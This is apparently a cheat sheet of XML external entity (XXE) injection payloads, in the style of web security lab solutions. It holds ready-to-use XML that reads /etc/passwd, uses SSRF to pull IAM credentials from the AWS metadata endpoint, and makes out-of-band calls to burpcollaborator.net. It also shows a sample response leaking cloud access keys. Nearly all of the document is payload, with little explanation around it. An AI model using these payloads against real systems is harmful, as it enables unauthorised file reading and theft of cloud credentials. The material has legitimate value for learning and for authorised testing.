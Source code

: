 # XML external entity (XXE) injection

## Exploiting XXE using external entities to retrieve files
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

## Exploiting XXE to perform SSRF attacks
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

Response:
```
HTTP/1.1 400 Bad Request
Content-Type: application/json
Connection: close
Content-Length: 546

"Invalid product ID: {
  "Code" : "Success",
  "LastUpdated" : "2019-12-04T10:39:48.174417Z",
  "Type" : "AWS-HMAC",
  "AccessKeyId" : "D7yHyaS5hANcoG9TRauJ",
  "SecretAccessKey" : "sjh5r5gtjQve7lX8O54ot3MdPlumGIIjiMseJ0C7",
  "Token" : "E6wskTuxF97EZqvoUbf9MiJigRSLPFzZIdIGXcE42TvUcNbDoPOWS4hORxQyw6AbJHVc5oKKuzA7jZqs4RBUH82sPaSbWAC0irnK38e7HPGrEa8LtXtPGhEbYn162TfasBvs1H7wOrDuV1iYykMb0vZEh0Oe6aqk0u4kbc2XmDRdUUmknShBqq4AVttL69qtTjsRQ4gzcbgMOC5rhDVHx01bTd9dHrt1XEAVxzBJY3Stj40s0nkAOyIvWCoKF68T",
  "Expiration" : "2025-12-02T10:39:48.174417Z"
}"
```

## Blind XXE vulnerabilities

### Blind XXE with out-of-band interaction
```xml
<!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://burpcollaborator.net"> ]> 
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

### Blind XXE with out-of-band interaction via XML parameter entities
```xml
<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://burpcollaborator.net"> %xxe; ]> 
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```